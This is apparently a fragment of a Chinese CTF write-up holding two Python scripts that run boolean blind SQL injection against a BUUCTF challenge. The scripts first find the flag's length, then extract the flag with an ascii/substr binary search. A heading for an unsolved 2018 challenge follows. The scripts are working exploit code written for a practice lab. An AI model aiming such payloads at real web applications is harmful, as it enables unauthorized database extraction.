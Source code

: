 所用到的py源码：

<code>
import requests

url = "http://705f0cba-883e-4d3b-b160-ad6ddefa01de.node4.buuoj.cn:81/index.php"
len = 1;
while(True):
    data = {"id": f"if(length((select(flag)from(flag)))={len},1,0)"}
    r = requests.post(url,data=data)
    if('Hello, glzjin wants a girlfriend.' in r.text):
        break;
    print(len,end='\n')
    len += 1
print(f"flag长度为{len}")

</code>

<code>
import requests
import time

url = "http://705f0cba-883e-4d3b-b160-ad6ddefa01de.node4.buuoj.cn:81/index.php"
flag = ''

for x in range(1,43):
    left = 33
    right = 126
    while(right > left):
        mid = int((left + right + 1) / 2)
        data = {'id':f"if(ascii(substr((select(flag)from(flag)),{x},1))>={mid},1,0)"}
        r = requests.post(url,data=data)
        if('Hello, glzjin wants a girlfriend.' in r.text):
            left = mid
        else:
            right = mid - 1
        time.sleep(0.1)
    flag += chr(right)
    print(flag)

print(f"flag为{flag}")

</code>

# [网鼎杯 2018]Fakebook1（未解出）
